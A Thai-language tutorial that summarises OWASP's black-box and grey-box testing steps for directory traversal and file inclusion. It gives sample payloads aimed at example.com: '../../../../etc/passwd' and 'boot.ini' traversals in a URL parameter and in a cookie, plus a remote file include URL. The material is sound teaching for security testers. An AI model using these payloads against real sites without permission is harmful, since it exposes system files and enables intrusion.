 Testing Directory traversal/file include (OTG-AUTHZ-001)

เรียกได้หลายชื่อ เช่น directory traversal, dot-dot-slash attack, directory climbing

เป็นช่องโหว่ที่ทำให้ attacker สามารถที่จะเข้าถึง file หรือ directory ไม่ว่าจะอ่านหรือเขียน ที่โดยปกติแล้วไม่มีสิทธิ์ ซึ่งอาจจะอยู่นอก web root directory หรือ นอก website

จาก owasp testing guide จะมี 2 stages หลัก คือ

Black box testing

1. Input Vectors Enumeration

tester จำเป็นที่จะต้องค้นหาแทุกๆ ส่วนที่ application รับ input จากผู้ใช้งานได้ เช่น จากตัวอย่าง จะมี

http://example.com/getUserProfile.jsp?item=ikki.html
http://example.com/index.php?file=content
http://example.com/main.cgi?home=index.htm
Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower Cookie: USER=1826cc8f:PSTYLE=GreenDotRed

2. Testing techniques

เมื่อเรา enum หาจุดที่ user สามารถกรอก input ได้มาแล้ว ก็ให้ลองพยายามอ่านไฟล์ที่น่าจะมีอยู่บนเครื่องโดย default เช่น ในตัวอย่าง ถ้าเป็น linux/unix os ก็น่าจะมีไฟล์ "/etc/passwd" หรือ ถ้าเป็น windows os ก็ควรจะมีไฟล์ "c:\boot.ini" หรือจะเป็นไฟล์ host ที่อยู่ใน "C:\Windows\System32\drivers\etc"

ทีนี้ก็ให้ลองทำการ attack ยกตัวอย่างเช่น

http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

หรือ

http://example.com/getUserProfile.jsp?item=../../../../boot.ini

***โดยที่ผู้ทดสอบต้องคำนึงถึงระบบปฏิบัติการที่เป็นไปได้จากขั้นตอน info gathering หรืออื่นๆ เช่น ถ้าเห็นว่า banner ของ web server ที่หลุดมาเป็น IIS ก็เป็นไปได้ที่จะเป็น windows os เป็นต้น***

หรือลองใส่ใน cookies ยกตัวอย่างเช่น

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd

***สิ่งสำคัญอย่างนึงที่ต้องคำนึงถึงคือต้องศึกษารูปแบบ file หรือ directory structure ของแต่ละ operating system ว่าควรจะอยู่ในรูปแบบใด***

ในบางครั้ง เราสมารถที่จะเรียก file หรือ script ที่อยู่นอก website เป้าหมาย เช่น

http://example.com/index.php?file=http://www.owasp.org/malicious.txt
ที่กล่าวมาเป็นแค่เบื้องต้น ยังมีอีกหลายรูปแบบในการโจมตีให้ศึกษาเพิ่มเติมจาก

https://www.owasp.org/index.php/Testing_Directory_traversal/file_include_(OTG-AUTHZ-001)
และในทางปฏิบัติเราสามารถใช้ Burp suite module ที่ชื่อว่า scanner ในการช่วยลดงาน manual ในส่วนนี้ของเราได้ โดยเราสามารถกำหนดจุดที่จะให้ burp ทำการค้นหาช่องโหว่ให้กับเรา จะกล่าวถึงในบทความอื่นต่อไป

Grey box testing
ใช้รูปแบบการทดสอบเหมือนกับ black box แต่กรณีที่เรามี source code ของเป้าหมาย เราสามารถที่จะค้นหา input point ได้จากการทำ source code review
